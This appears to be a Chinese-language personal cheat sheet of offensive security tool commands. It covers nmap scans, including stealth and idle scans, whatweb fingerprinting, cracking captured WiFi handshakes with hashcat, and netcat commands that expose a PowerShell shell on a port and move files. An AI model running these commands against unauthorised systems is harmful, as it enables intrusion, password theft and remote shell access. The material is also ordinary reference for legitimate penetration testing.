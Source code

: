 [一文教你学会黑客必备安全工具，轻松入门 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/401413938)

[黑客学习资料总结 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/400586587)

### nmap

```bash
nmap -sn 192.168.3.74 #扫描指定IP地址(ping 扫描)
nmap 192.168.3.74 #扫描指定IP地址
nmap -iL target.txt #提取文件中的IP地址
nmap 192.168.3.1/24 #扫描整个网段
nmap 192.168.3.74 -p80 #扫描主机的指定端口
nmap -sS 192.168.3.74 #使用TCP的SYN进行扫描（半开放扫描，只发送SYN，如果服务器回复SYN，ACK。证明端口开放，不建立完整连接）
nmap -sT 192.168.3.74 #使用TCP进行扫描（默认nmap扫描方式）
nmap -sU 192.168.3.74 #使用UDP进行扫描（扫描UDP开放的端口）
nmap -sF 192.168.3.74 #使用FIN扫描 有的时候TCP SYN不是最佳的扫描默认，目标主机可能有IDS/IPS系统的存在，防火墙可能过滤掉SYN数据包。而发送一个FIN标志的数据包不需要完成TCP的握手。
nmap -sI 192.168.3.227 192.168.3.74 #idle扫描（需要指定另外一台主机IP地址，并且目标主机的IPID是递增的） idlescan是一种理想的扫描方式，它使用另一台网络上的主机替你发送数据包，从而隐藏自己。

nmap -sV 192.168.3.74 #获得服务版本详细信息
nmap -O 192.168.3.227 #确定主机操作系统

```



### whatweb

```bash
whatweb --version				# 查看版本
whatweb -l						# 查看所有插件 
whatweb --info-plugins="html5"	# 查看指定插件
whatweb baidu.com			# 扫描网站
whatweb --no-errors -t 255 192.168.100.0/24 --url-suffix=":8080"		# 扫描网段，且端口为8080
whatweb -i "/root/test.txt"	# 批量扫描
whatweb baidu.com -v		# 显示详细的扫描信息
whatweb baidu.com -a 1								# 指定扫描级别
whatweb baidu.com --url-suffix=":80"				# 指定扫描端口（默认80）
whatweb baidu.com --proxy-user admin:password		# 指定登录账号:密码
whatweb baidu.com -c='PHPSESSID=031;security=low'	# 指定cookie
whatweb baidu.com --max-threads=60					# 指定最大进程数
whatweb baidu.com --log-xml="result.xml"	# 导出结果

```

### wifite & hashcat

[HashCat-6.2.3 详细命令及使用&官方帮助 - 悟透 - 博客园 (cnblogs.com)](https://www.cnblogs.com/wutou/p/17672213.html)

https://blog.csdn.net/sunny_day_day/article/details/109957331

```bash
# 将抓取的cap文件转为hc220000
$ sudo hcxpcapngtool handshake_xmlshome_48-5F-08-16-70-7B_2024-02-13T18-03-46.cap -o test.hc22000
# hashcat破解
$ hashcat -m 22000  test.hc22000 -a 0 ~/下载/cain.txt
```

[Powershell内网渗透利器之PowerSploit - FreeBuf网络安全行业门户](https://www.freebuf.com/column/171993.html)

[工具 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool)

### netcat

[netcat使用及反弹shell_netcat反弹shell-CSDN博客](https://blog.csdn.net/weixin_43623271/article/details/123011003)

```shell
# 反弹shell
# windows服务器
nc -l -p port -e xxx.exe
# 客户端
nc target_ip target_port
# nc -l -p 3333 -e pwsh.exe
# c 192.168.100.228 3333

# 文件传输
# windows服务器 pwsh中运行
cmd /c 'nc -l -p port < filename'
# 客户端
nc target_ip  port > filename
# cmd /c 'nc -l -p 3334 < aaa.txt'
# nc 192.168.100.228  3334 > aaa.txt
```

